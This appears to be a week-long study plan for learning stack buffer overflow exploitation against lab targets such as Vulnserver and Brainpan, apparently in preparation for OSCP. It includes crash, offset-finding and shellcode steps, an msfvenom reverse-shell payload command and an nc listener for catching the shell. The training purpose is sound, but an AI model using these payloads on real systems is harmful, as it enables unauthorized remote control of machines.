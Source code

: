 # 💥 Week 5: Buffer Overflows

> _“Anyone can use an exploit. Few can create one.”_  
> Buffer overflows are your rite of passage. This is where you stop being a tool user and become a weapon.

---

## 🎯 Objectives
- Learn how to perform **manual buffer overflow attacks**
- Understand memory layout, registers, and shellcode
- Use tools like `pattern_create`, `pattern_offset`, `gdb`, and `msfvenom`
- Build your own exploit from scratch against a vulnerable service
- Achieve a reverse shell without Metasploit

---

## 🧠 Concepts Covered
- Stack memory layout (EIP, ESP, etc.)
- Finding offset and controlling execution flow
- Writing and placing shellcode
- Avoiding bad characters
- Using `gdb` and `pwndbg` to debug exploits

---

## 🛠 Tools You’ll Master

|Tool|Purpose|
|---|---|
|`gdb` + `pwndbg`|Debugging and memory analysis|
|`pattern_create.rb`|Create unique pattern for offset discovery|
|`pattern_offset.rb`|Find offset in pattern|
|`msfvenom`|Create shellcode payloads|
|`python3`|Write exploit scripts|
|`nasm` / `nasmshell`|(Optional) custom shellcode|

---

## 🧪 Machines / Labs

|Target|Purpose|
|---|---|
|**Vulnserver** (Windows)|Core BOF lab (used in OSCP)|
|**Brainpan** (HTB)|Linux-based BOF + exploitation|
|**TryHackMe BOF Lab**|Supplemental training if needed|

---

## 🗓️ Daily Breakdown

---

### 📅 Monday – Introduction to BOF Concepts

#### ✅ Objectives:
- Understand what a buffer overflow is and how memory works
- Learn about EIP, ESP, and stack behavior
#### 🔧 Tasks:
- Watch the TCM Buffer Overflow videos again
- Build a mental model of stack → buffer → EIP → shellcode flow
#### 📄 Deliverables:
- Create `bof-concepts.md` with definitions:
    - What is EIP?
    - What is a SEH?
    - What’s bad character avoidance?
    - What’s shellcode?

---

### 📅 Tuesday – Setting Up Vulnserver Lab (Windows BOF)

#### ✅ Objectives:
- Run and connect to Vulnserver from Kali
- Send custom payloads to trigger crash
#### 🔧 Tasks:
- Start Windows VM with Vulnserver listening on port 9999
- Use:

```bash
nc <IP> 9999
```

- Send:

```bash
AAAAAAAAA... (long string)
```

- Confirm crash, open `Immunity Debugger` or `gdb` and replicate
#### 📄 Deliverables:
- Screenshot of EIP overwritten with `41414141`

---

### 📅 Wednesday – Finding the Offset

#### ✅ Objectives:
- Use pattern to find exact location of EIP control
#### 🔧 Tasks:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```

- Send pattern via Python or `nc`
- View EIP in debugger
- Find offset:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP>
```

#### 📄 Deliverables:
- Offset confirmed
- Screenshot of offset working

---

### 📅 Thursday – Injecting Shellcode

#### ✅ Objectives:
- Replace payload with shellcode
- Ensure space in buffer is enough
- Insert NOP sled + reverse shell
#### 🔧 Tasks:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<your IP> LPORT=4444 -f python -b "\\x00\\x0a\\x0d"
```

- Build final Python exploit:

```python
buffer = "A" * offset + "B" * 4 + "\x90" * 16 + <shellcode>
```

- Run `nc -lvnp 4444`, fire payload
#### 📄 Deliverables:
- Screenshot of SYSTEM shell
- `vulnserver-exploit.py`

---

### 📅 Friday – Root Brainpan (HTB)

#### ✅ Objectives:
- Apply same principles on Linux box
#### 🔧 Tasks:
- Use `gdb` with `pwndbg`
- Repeat: crash → pattern → offset → shellcode
#### 📄 Deliverables:
- `brainpan-report.md`

---

### 📅 Saturday – TryHackMe BOF Lab (Optional)

#### ✅ Objectives:
- Reinforce skills with second environment
- Test multiple shellcode variations

---

### 📅 Sunday – Reflection + Exploit Archive

#### ✅ Objectives:
- Create your own exploit archive
- Reflect on memory safety, writing your own exploit
#### 🔧 Tasks:
- Create:
    - `bof-exploit.py`
    - `bof-checklist.md`
    - `bof-concepts.md`
- Update `ego-log.md`:
    - How confident do you feel controlling EIP?
    - Can you explain every part of your payload?
    - What do you still not fully understand?

---

## ✅ End-of-Week Checklist
-  Rooted Vulnserver via manual BOF
-  Controlled EIP with `pattern_offset`
-  Used `msfvenom` to craft reverse shell payload
-  Rooted Brainpan using custom script
-  Created `bof-checklist.md`
-  Updated `ego-log.md` with reflection